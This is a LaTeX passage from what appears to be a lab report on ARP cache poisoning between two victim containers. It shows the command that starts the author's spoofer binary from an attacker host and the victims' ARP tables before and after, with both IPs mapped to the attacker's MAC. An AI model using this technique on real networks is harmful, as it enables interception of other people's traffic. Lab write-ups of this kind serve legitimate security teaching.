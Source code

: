 \documentclass[12pt]{article}
\begin{document}
\begin{figure}[h]
    \includegraphics[scale=0.4]{normal-icmp}
    \caption{Normal ICMP communication}
\end{figure}

\FloatBarrier

\vspace{1cm}

\subsection{ARP Poisoning}

Now that a communication is in place between the victim hostws, we need to
poison their ARP caches. After building my project, we can begin poisoning the
caches with the following command.

\vspace{1cm}

\begin{lstlisting}[language=bash,caption={Begin ARP poisoning},captionpos=b]
# At Host M
# binary_file   Host A   Host B   Interface
./spoofer/spoof 10.9.0.5 10.9.0.6 eth0
\end{lstlisting}

\vspace{1cm}

The binary will begin poisoning the ARP caches of both the victim hosts
continuously. Continuously because if the attacker stops poisoning the caches,
the victim hosts will reset their caches with correct entries.

\vspace{1cm}

\begin{lstlisting}[language=bash,caption={Before and after ARP poisoning},captionpos=b]
# At Host A, before being poisoned
Address       HWtype  HWaddress           Flags Mask  Iface
10.9.0.6      ether   02:42:0a:09:00:06   C           eth0
10.9.0.105    ether   02:42:0a:09:00:69   C           eth0

# At Host B, before being poisoned
Address       HWtype  HWaddress           Flags Mask  Iface
10.9.0.5      ether   02:42:0a:09:00:05   C           eth0
10.9.0.105    ether   02:42:0a:09:00:69   C           eth0

# At Host A, after being poisoned
Address       HWtype  HWaddress           Flags Mask  Iface
10.9.0.6      ether   02:42:0a:09:00:69   C           eth0
10.9.0.105    ether   02:42:0a:09:00:69   C           eth0

# At Host B, after being poisoned
Address       HWtype  HWaddress           Flags Mask  Iface
10.9.0.5      ether   02:42:0a:09:00:69   C           eth0
10.9.0.105    ether   02:42:0a:09:00:69   C           eth0
\end{lstlisting}
\end{document}
